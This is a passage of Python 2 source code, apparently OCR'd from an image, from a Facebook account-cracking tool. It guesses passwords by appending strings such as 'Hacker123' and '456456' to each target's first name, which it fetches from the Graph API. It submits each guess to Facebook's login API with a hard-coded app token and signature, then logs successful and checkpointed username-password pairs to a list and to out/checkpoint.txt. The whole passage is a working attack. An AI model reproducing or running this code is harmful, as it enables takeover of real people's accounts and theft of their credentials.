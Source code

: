 												else:

													pass6 = b['first_name'] + 'Hacker123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '456456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																	cek = open("out/checkpoint.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

